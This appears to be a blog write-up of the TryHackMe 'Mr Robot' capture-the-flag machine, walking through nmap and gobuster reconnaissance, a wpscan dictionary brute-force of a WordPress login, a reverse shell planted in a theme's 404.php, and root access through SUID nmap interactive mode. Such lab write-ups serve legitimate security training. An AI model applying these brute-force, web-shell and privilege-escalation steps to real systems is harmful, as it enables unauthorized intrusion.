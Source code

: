 ```yaml
---
title : "Mr Robot"
date : 2025-06-15 
layout : post
categories : [THM]
tags : [MrRobot]
Difficulty : Medium
author : jana
---
```


# 🔍 Mr. Robot CTF Walkthrough – A Penetration Testing Report

## 🧠 Objective

This report details the steps taken to compromise the *Mr. Robot* vulnerable machine. The goal is to obtain user and root flags using a combination of web enumeration, password cracking, and local privilege escalation.

---

## 🔎 1. Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial.txt 10.10.10.100
```

**Results:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.7
```

### 🌐 Web Enumeration

Visited `http://10.10.10.100/` in browser.

- Found a **robot-themed website**.
- `robots.txt` revealed two interesting entries:
  ```
  User-agent: *
  Disallow: /fsocity.dic
  Disallow: /key-1-of-3.txt
  ```

### 🧰 Gobuster

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

- Found `/admin`, `/license`, `/images`, etc.
- No login forms, but `/fsocity.dic` is downloadable — appears to be a **dictionary file**.

---

## 🔓 2. Exploitation

### 🧪 Using `fsocity.dic` for WordPress Login Brute-force

Identified that the site uses **WordPress** (`wp-login.php` exists).

Used **wpscan**:

```bash
wpscan --url http://10.10.10.100 --wordlist fsocity.dic --username elliot
```

Successfully logged in as **elliot**.

### 🧬 Reverse Shell

Uploaded a **reverse shell** using WordPress theme editor (modified 404.php).

Set listener:

```bash
nc -lvnp 4444
```

Triggered reverse shell by visiting the modified file in browser.

---

## 🔐 3. Privilege Escalation

Enumerated user and found:

```bash
cat key-1-of-3.txt
```

### 🔍 Local Enumeration

Found SUID binary: `nmap`

```bash
nmap --interactive
> !sh
```

Got root shell via `nmap` interactive mode.

---

## 🏁 4. Flags

```bash
cat /home/robot/key-2-of-3.txt
```

```bash
cat /root/key-3-of-3.txt
```

---

## 📄 Summary

| Phase         | Technique / Tool                  | Result         |
|---------------|-----------------------------------|----------------|
| Recon         | Nmap, Gobuster                    | Identified WordPress |
| Exploitation  | Wpscan, fsocity.dic brute-force   | Gained user shell |
| Priv Esc      | SUID nmap                         | Root shell obtained |
| Flags         | Text files                        | ✅ All 3 flags captured |

---

## 🧠 Lessons Learned

- Always check `robots.txt` — goldmine for hidden files.
- Dictionary files can be reused for brute-force attacks.
- SUID binaries like `nmap`, `vim`, or `less` are classic privilege escalation vectors.

---

## 🧰 Tools Used

- Nmap
- Gobuster
- WPScan
- Netcat
- Burp Suite (for some traffic analysis)

---

> ✍️ *Thanks for reading! If you found this useful, follow me for more walkthroughs and real-world pentest content.*
